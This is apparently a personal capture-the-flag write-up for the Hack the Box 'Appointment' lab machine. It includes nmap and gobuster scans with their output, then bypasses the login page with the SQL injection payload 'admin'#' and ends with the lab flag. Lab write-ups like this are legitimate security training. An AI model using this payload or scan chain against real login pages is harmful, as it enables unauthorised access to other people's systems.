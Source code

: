 Hack the Box
Starting Point

Appointment

10.129.117.137

nmap -sV -sC --min-rate 1000 --max-retries 2 -oN nmap/Appointment 10.129.117.137

Starting Nmap 7.80 ( https://nmap.org ) at 2023-06-18 04:41 Americas
Nmap scan report for 10.129.117.137
Host is up (0.13s latency).
Not shown: 994 closed ports
PORT    STATE    SERVICE          VERSION
80/tcp  open     http             Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Login
113/tcp filtered ident
199/tcp filtered smux
256/tcp filtered fw1-secureremote
445/tcp filtered microsoft-ds
993/tcp filtered imaps

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.80 seconds

gobuster -u http://10.129.117.137/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt 

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.129.117.137/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2023/06/18 05:04:30 Starting gobuster
=====================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/vendor (Status: 301)
/fonts (Status: 301)
=====================================================
2023/06/18 05:24:57 Finished
=====================================================

** Nothing helpful from gobuster

** Let's try to see we can mess with SQL with login page

** after trying default passwords, lets try to use SQL injection:

** add a single quote (to end the input) and a # (to comment out the rest of the input)

Username: admin'#


Congratulations!

Your flag is: e3d0796d002a446c0e622226f42e9672
